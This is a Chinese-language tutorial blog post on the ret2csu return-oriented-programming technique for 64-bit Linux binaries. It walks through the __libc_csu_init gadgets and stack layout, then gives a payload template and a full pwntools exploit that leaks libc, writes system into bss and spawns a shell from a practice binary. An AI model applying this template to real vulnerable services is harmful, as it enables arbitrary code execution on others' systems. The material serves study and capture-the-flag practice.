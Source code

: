 # ROP-ret2csu


_libc_csu_init是64位程序几乎必有的一个函数，用来对libc.so进行初始化。该函数会对一些常用的寄存器进行初始化。如下所示：

![image-20231104233639574](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231104233639574.png)

我们就可以通过栈溢出转到这两个gadgets处进行执行，从而利用栈上的数据为寄存器赋值，然后执行目标函数。

这里分析下两个gadgets的流程（按照顺序）：

- 将rsp+8的内容赋值给rbx，这里必须是0，原因在下面
- 将rsp+16的内容赋值给rbp，这里选择1，原因稍后
- rsp+24 -> r12，
- rsp+32 -> r13
- rsp+40 -> r14
- rsp+48 -> r15
- 栈顶下移0x38
- r15 -> rdx
- r14 -> rsi
- r13d -> edi （就是rdi的低位）
- 执行 r12 + rbx*8 位置的指令，因为rbx为0，这里就等于r12指向的地址
- rbx += 1，此时rbx=1
- 为了不进行跳转，这里必须使得rbx==rbp，由于rbx==1，rbp==1，因此两者相等

64位函数调用的参数顺序依次为：rdi,rsi,rdx,rcx,r8,r9,栈，如果要利用csu进行函数调用，栈的布局应该如下所示：

![image.png](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/1698838923788-6dcca3cf-f276-49e3-91f2-cee3d9c0ee0d.png)

对于ret2csu的payload均按此构造即可。

给出payload模板：

```python
payload1 =  b"\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8)
payload1 += p64(0x4005F0)
payload1 += b"\x00"*56
payload1 += p64(main)
```

实际上需要更改的只有这个部分：

![image.png](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/1698909690481-c828080b-1130-403e-a2b6-60e949803bb5.png)

PS：

- padding最好使用\x00，不然会有莫名其妙的问题
- 关闭地址随机化
- 使用system需要将地址写入bss段再进行调用

模板：（第一次payload泄露write地址，从而获得libc偏移；第二次payload向bss写入system addr，第三次payload执行system指令）

```python
from pwn import *

context(arch='amd64',os='linux')

elf = ELF('./level5')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
r = elf.process()

main = 0x400564
got_write = elf.got['write']

gadgets1 = 0x400606
gadgets2 = 0x4005f0

payload1 =  b"a"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8)
payload1 += p64(0x4005F0)
payload1 += b"a"*56
payload1 += p64(main)

r.recvuntil(b'Hello, World\n')
r.send(payload1)

write_addr = u64(r.recvuntil(b'\x7f').ljust(8,b'\x00'))

libc_addr = write_addr - libc.sym['write']
system_addr = libc_addr + libc.sym['system']
got_read = elf.got['read']
bss_addr = 0x601028

payload2 =  b"\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16)
payload2 += p64(0x4005F0) 
payload2 += b"\x00"*56
payload2 += p64(main)

r.recvuntil(b'Hello, World\n')
r.send(payload2)

r.send(p64(system_addr) + b'/bin/sh\0')

payload3 =  b"\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr + 8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += b"\x00"*56
payload3 += p64(main)

gdb.attach(r)
r.recvuntil(b'Hello, World\n')
sleep(1)
r.send(payload3)

r.interactive()
```


---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/11/rop-ret2csu/  

